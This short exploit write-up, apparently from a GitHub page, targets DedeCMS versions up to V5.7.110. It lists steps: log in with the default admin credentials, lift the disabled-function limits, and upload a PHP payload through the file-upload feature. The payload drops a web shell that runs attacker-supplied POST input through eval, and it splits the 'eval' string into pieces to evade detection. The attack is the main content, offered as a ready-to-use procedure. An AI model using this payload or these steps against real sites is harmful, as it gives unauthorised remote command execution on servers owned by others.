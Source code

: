 This version of dedecms<=DedeCMS V5.7.110

1. Use the default account password admin to log in to the backend. Currently, the latest version (August 15, 2023)
2. To remove system disabled functions
3. Upload Payload at the file upload location:
```php
<?php
$fp=fopen('data.php','w');
fwrite($fp,'<?php ');
fwrite($fp,'eva');
fwrite($fp,'l($_PO');
fwrite($fp,'ST[');
fwrite($fp,'shell])?>');
fclose($fp);
echo 'ok';
?>
```

4. Accessing Payload
5. A Trojan file will be generated in the directory to access executable commands

There is a detailed process in the usage details.pdf




